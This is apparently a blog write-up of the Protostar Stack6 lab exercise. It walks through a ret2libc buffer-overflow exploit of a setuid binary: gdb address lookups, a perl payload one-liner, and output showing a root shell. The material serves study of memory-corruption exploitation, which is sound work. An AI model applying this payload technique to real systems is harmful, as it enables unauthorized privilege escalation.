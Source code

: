 ```yaml
---
layout: post
title:  "Protostar Stack6 challenge"
date:   2018-04-22 18:26:36 +0530
categories: exploit-exercises protostar stack6
---
```

[Stack6][stack6-proto-link] exercise has some restrictions on what addresses can we return to. If we try the usual method followed for [Stack5][stack5-proto-link] we're unable to spawn the shell. The source code for `Stack6` is

{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
{% endhighlight %}
The if condition `if((ret & 0xbf000000) == 0xbf000000)` is what prevents us from executing shell-code we keep in our stack.
The address of shellcode we had kept in stack began with `0xbf` making if condition true. Can we not place our shell code some where in stack not staring with `0xbf`. We check to see the range of addresses the stack is allocated. Perhaps thats not possible.
We can check that in gdb
{% highlight nasm %}
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6
Breakpoint 1, main (argc=1, argv=0xbffff884) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) info proc map
process 2206
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	`0xbffeb000 0xc0000000    0x15000          0           [stack]`
(gdb)
{% endhighlight %}
So memory mapped for stack area all start with `0xbf`. Thus we cannot execute code from our stack.
The challenge mentions `ret2libc(return to lib c)` which i used for this challenge. [Performing a ret2libc Attack][ret2libc-tut-link] provides a good explanation of how this attack works. You can use it as reference or any other of various articles about it.
I used the method mentioned in previous [tutorial for protostar stack6][stack5-tut-link] to find out offset of `RET` from `buffer`. Which comes out to be `80(0x50)` in this case.
Next we find out address of system(only takes one argument, a pointer to a string containing the path and name of
the program we want to execute) and exit commands
{% highlight nasm %}
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}
Mentioned in [Performing a ret2libc Attack][ret2libc-tut-link] tutorial link is what how our payload should be structured. Our payload would be `[A*80][system][exit][cmd]`. `cmd` here will be the string `/bin/sh` or `/bin/bash`. Since `stack6` is a `setuid` program with owner as root, i should get root priviliges when shell is spawned. But after some failed attempts to use `/bin/bash` as cmd i found out that it drops root priviliges. But on trying with `/bin/sh` it did not drop root. Probably because of this [/bin/sh does not drop privileges][bin-sh-so-link].

Further there are two ways to pass `/bin/sh` to payload. Either through enviroment variable or storing the string in stack memory. Continuing on following the [Performing a ret2libc Attack][ret2libc-tut-link] i first tried with environment variable.
Instead of using C program as in tutorial to load /bin/sh to shell enviroment, simply do following in shell
{% highlight shell %}
user@protostar:~$ export EGG="/bin/sh"
{% endhighlight %}
Then create a C program to get its address
{% highlight cpp%}
user@protostar:~$ cat getenv.c
int main() {
	char *p = getenv("EGG");
	printf("ptr %p\n", p);
}
user@protostar:~$ ./getenv
ptr 0xbffffa24
{% endhighlight %}
But as mentioned in tutorial/over internet this address changes and depends upon calling program. So i fired up gdb to find actual address of EGG in `stack6` program. I try to search around the address found from sample C program above.
{% highlight nasm %}
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) x/30s 0xbffffa24-30
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
{% endhighlight %}
Here output shows i could not find `/bin/sh` string. On some previous trials i was able to find the string address as `0xbfffff97` but i was still unable to get shell using it, pointing out that the address was still different that used.
Luckily after some googling to find address of environment variable in a program, i came upon this helpful [genenvaddr][genenvaddr-link]. This is taken from page 147-148 of `Hacking: The Art of Exploitation, 2nd Edition` book and adjusts for name of executing program also being saved on stack which affects the environment variable location which is also stored on stack.
{% highlight shell %}
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack6
EGG will be at 0xbffffa02
{% endhighlight %}
Combining all information found it was time to prepare payload as `perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"'`
and use it. But initial attempts failed. The shell was being dropped.
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"'  | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
user@protostar:~$
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > p
user@protostar:~$ /opt/protostar/bin/stack6 < p
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
user@protostar:~$
{% endhighlight %}
This was probably due to some issues with shell-redirection. But on doing it the same was as done was `stack5` i was able to get a root shell.
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > p
user@protostar:~$ (cat p;cat) | /opt/protostar/bin/stack6
input path please:
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}
So finally we were able to bypass the executable address checking by using `libc` calls. We used `system` call to `/bin/sh` stored in shell environment.
On why the payload was formatted in this manner, please read [Performing a ret2libc Attack][ret2libc-tut-link] in detail. This is must for building on all variants of `ret2libc` attacks.
And `exit` to gracefully exit from program after `system` return to it upon completion. `exit` also expects a parameter got around without passing. It would pick up any junk value after `[cmd]` and use it.
Next we will see how to do this by storing string `/bin/sh` in the stack itself.

[stack6-proto-link]:https://exploit.education/protostar/stack-six/
[stack5-proto-link]:https://exploit.education/protostar/stack-five/
[stack5-tut-link]:https://rawatm.github.io/exploit-exercises/protostar/stack5/2018/04/14/protostar-stack5/
[bin-sh-so-link]:https://stackoverflow.com/questions/13209215/bin-sh-does-not-drop-privileges
[genenvaddr-link]:https://gist.github.com/superkojiman/6a6e44db390d6dfc329a
[ret2libc-tut-link]:https://www.shellblade.net/docs/ret2libc.pdf